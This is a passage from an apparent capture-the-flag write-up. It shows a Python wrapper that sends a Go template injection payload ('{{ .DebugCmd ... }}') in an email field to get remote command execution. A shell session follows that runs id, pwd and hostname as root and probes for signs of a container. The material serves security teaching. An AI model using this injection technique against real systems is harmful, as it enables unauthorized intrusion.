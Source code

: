 ```
                data = {"email": f'{{{{ .DebugCmd "{cmd}" }}}}'},    
                proxies = {"http": "http://127.0.0.1:8080"})    
        try:    
            result = self.capture_re.search(resp.text).group(1)    
            result = unescape(unescape(result))
            print(result)
        except:
            import pdb; pdb.set_trace()

    def do_exit(self, args):
        """Exit"""
        return True

term = Term()
term.cmdloop()

```

When I give it anything besides `exit`, it will make the request to run the command and use a regex to pull the SSTI result from the returned page.

```

oxdf@parrot$ python3 shell.py 
gobox> id
uid=0(root) gid=0(root) groups=0(root)
gobox> pwd
/opt/uhc

```

## Shell as www-data

### Enumeration

#### Filesystem

The hostname of this system is aws:

```

gobox> hostname
aws

```

When `ifconfig` and `ip` are not installed on the system, it’s a really good hint that this is a container.

```

gobox> ifconfig
/bin/bash: ifconfig: command not found
gobox> ip
/bin/bash: ip: command not found

```
